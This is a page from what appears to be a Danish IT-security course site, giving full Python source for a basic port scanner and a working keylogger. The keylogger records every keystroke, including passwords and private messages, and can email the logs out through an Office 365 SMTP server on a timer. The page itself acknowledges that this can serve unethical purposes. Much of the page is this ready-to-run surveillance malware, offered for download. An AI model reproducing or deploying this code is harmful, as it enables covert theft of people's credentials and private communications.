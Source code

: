 ```yaml
---
layout: default
title: IT sikkerhed Code
parent: IT security
nav_order: 30
---
```


<span class="fs-1">
[HOME](./index.md){: .btn .btn-blue }
</span>


# Code

## Port Scanner

### Install

    pip3 install colorama

### Use

    python3 fast_port_scanner.py 192.168.1.1 --ports 1-5000

### Code

 ```python
 import socket # for connecting
from colorama import init, Fore

# some colors
init()
GREEN = Fore.GREEN
RESET = Fore.RESET
GRAY = Fore.LIGHTBLACK_EX

def is_port_open(host, port):
    """
    determine whether `host` has the `port` open
    """
    # creates a new socket
    s = socket.socket()
    try:
        # tries to connect to host using that port
        s.connect((host, port))
        # make timeout if you want it a little faster ( less accuracy )
        s.settimeout(0.2)
    except:
        # cannot connect, port is closed
        # return false
        return False
    else:
        # the connection was established, port is open!
        return True

# get the host from the user
host = input("Enter the host:")
# iterate over ports, from 1 to 1024
for port in range(1, 1025):
    if is_port_open(host, port):
        print(f"{GREEN}[+] {host}:{port} is open      {RESET}")
    else:
        print(f"{GRAY}[!] {host}:{port} is closed    {RESET}", end="\r")
 ```

 Get the file: [fast_port_scanner.py](../it_security/code/portscanner/fast_port_scanner.py)

# Keylogger
A keylogger is a type of surveillance technology used to monitor and record each keystroke typed on a specific computer's keyboard. It is also considered malware since it can be invisible running in the background, and the user cannot notice the presence of this program.

With a keylogger, you can easily use this for unethical purposes; you can register everything the user is typing on the keyboard, including credentials, private messages, etc., and send them back to you.

## Modules

    pip3 install keyboard

This module allows you to take complete control of your keyboard, hook global events, register hotkeys, simulate key presses, and much more, and it is a small module, though.


## Code
Run the code for 60 seconds and it will create a txt file.

 ```python
import keyboard # for keylogs
import smtplib # for sending email using SMTP protocol (gmail)
# Timer is to make a method runs after an `interval` amount of time
from threading import Timer
from datetime import datetime
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText

SEND_REPORT_EVERY = 60 # in seconds, 60 means 1 minute and so on
EMAIL_ADDRESS = "email@provider.tld"
EMAIL_PASSWORD = "password_here"

class Keylogger:
    def __init__(self, interval, report_method="email"):
        # we gonna pass SEND_REPORT_EVERY to interval
        self.interval = interval
        self.report_method = report_method
        # this is the string variable that contains the log of all 
        # the keystrokes within `self.interval`
        self.log = ""
        # record start & end datetimes
        self.start_dt = datetime.now()
        self.end_dt = datetime.now()

    def callback(self, event):
        """
        This callback is invoked whenever a keyboard event is occured
        (i.e when a key is released in this example)
        """
        name = event.name
        if len(name) > 1:
            # not a character, special key (e.g ctrl, alt, etc.)
            # uppercase with []
            if name == "space":
                # " " instead of "space"
                name = " "
            elif name == "enter":
                # add a new line whenever an ENTER is pressed
                name = "[ENTER]\n"
            elif name == "decimal":
                name = "."
            else:
                # replace spaces with underscores
                name = name.replace(" ", "_")
                name = f"[{name.upper()}]"
        # finally, add the key name to our global `self.log` variable
        self.log += name
    
    def update_filename(self):
        # construct the filename to be identified by start & end datetimes
        start_dt_str = str(self.start_dt)[:-7].replace(" ", "-").replace(":", "")
        end_dt_str = str(self.end_dt)[:-7].replace(" ", "-").replace(":", "")
        self.filename = f"keylog-{start_dt_str}_{end_dt_str}"

    def report_to_file(self):
        """This method creates a log file in the current directory that contains
        the current keylogs in the `self.log` variable"""
        # open the file in write mode (create it)
        with open(f"{self.filename}.txt", "w") as f:
            # write the keylogs to the file
            print(self.log, file=f)
        print(f"[+] Saved {self.filename}.txt")

    def prepare_mail(self, message):
        """Utility function to construct a MIMEMultipart from a text
        It creates an HTML version as well as text version
        to be sent as an email"""
        msg = MIMEMultipart("alternative")
        msg["From"] = EMAIL_ADDRESS
        msg["To"] = EMAIL_ADDRESS
        msg["Subject"] = "Keylogger logs"
        # simple paragraph, feel free to edit
        html = f"<p>{message}</p>"
        text_part = MIMEText(message, "plain")
        html_part = MIMEText(html, "html")
        msg.attach(text_part)
        msg.attach(html_part)
        # after making the mail, convert back as string message
        return msg.as_string()

    def sendmail(self, email, password, message, verbose=1):
        # manages a connection to an SMTP server
        # in our case it's for Microsoft365, Outlook, Hotmail, and live.com
        server = smtplib.SMTP(host="smtp.office365.com", port=587)
        # connect to the SMTP server as TLS mode ( for security )
        server.starttls()
        # login to the email account
        server.login(email, password)
        # send the actual message after preparation
        server.sendmail(email, email, self.prepare_mail(message))
        # terminates the session
        server.quit()
        if verbose:
            print(f"{datetime.now()} - Sent an email to {email} containing:  {message}")

    def report(self):
        """
        This function gets called every `self.interval`
        It basically sends keylogs and resets `self.log` variable
        """
        if self.log:
            # if there is something in log, report it
            self.end_dt = datetime.now()
            # update `self.filename`
            self.update_filename()
            if self.report_method == "email":
                self.sendmail(EMAIL_ADDRESS, EMAIL_PASSWORD, self.log)
            elif self.report_method == "file":
                self.report_to_file()
                # if you don't want to print in the console, comment below line
                print(f"[{self.filename}] - {self.log}")
            self.start_dt = datetime.now()
        self.log = ""
        timer = Timer(interval=self.interval, function=self.report)
        # set the thread as daemon (dies when main thread die)
        timer.daemon = True
        # start the timer
        timer.start()

    def start(self):
        # record the start datetime
        self.start_dt = datetime.now()
        # start the keylogger
        keyboard.on_release(callback=self.callback)
        # start reporting the keylogs
        self.report()
        # make a simple message
        print(f"{datetime.now()} - Started keylogger")
        # block the current thread, wait until CTRL+C is pressed
        keyboard.wait()

    
if __name__ == "__main__":
    # if you want a keylogger to send to your email
    # keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="email")
    # if you want a keylogger to record keylogs to a local file 
    # (and then send it using your favorite method)
    keylogger = Keylogger(interval=SEND_REPORT_EVERY, report_method="file")
    keylogger.start()
 ```

 Get the file: [keylogger.py](../it_security/code/keylogger/keylogger.py)